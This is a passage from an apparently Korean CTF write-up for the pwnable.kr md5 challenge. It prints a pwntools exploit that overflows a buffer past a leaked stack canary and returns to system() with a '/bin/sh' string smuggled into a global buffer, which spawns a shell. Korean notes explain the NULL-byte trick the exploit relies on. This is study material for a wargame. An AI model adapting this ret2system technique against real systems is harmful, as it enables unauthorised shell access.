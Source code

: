 ```python
system = 0x08048880
g_buf = 0x0804b0e0

payload = b"A"*512 + p32(canary) + b"A"*12 + p32(system) + b"AAAA" + p32(g_buf)
base64_payload = base64.b64encode(payload)

# base64_payload길이 + null문자 1byte
sh_addr = g_buf + len(base64_payload) + 1

# padding 512byte + canary + padding 12byte + system함수 주소 + padding(ret addr) + "/bin/sh" 주소
payload = b"A"*512 + p32(canary) + b"A"*12 + p32(system) + b"AAAA" + p32(sh_addr)
base64_payload = base64.b64encode(payload)

p.send(base64_payload + b"\x00/bin/sh\n")

p.interactive()
```

"/bin/sh"문자열은 그냥 g_buf안에다가 base64로 encode된 값 뒤에 추가로 넘겨줘서 박아넣었다.<br>
사용자의 input을 받을 때 fgets함수를 이용해서 받는다. fgets는 개행을 만날 때까지 입력값을 받기 때문에, NULL문자도 입력할 수 있다.<br>
"/bin/sh"문자열을 그냥 base64 문자열 바로 뒤에 붙여버리면 base64 decode가 되지 않기 때문에 중간에 NULL문자를 넣어서 base64 문자열까지만 복호화루틴에서 사용될 수 있도록 해야한다.

## 부록

### calcDecodeLength

<img src="/picture/pwnable.kr/md5_4.png" width="1000"/>

### Base64Decode
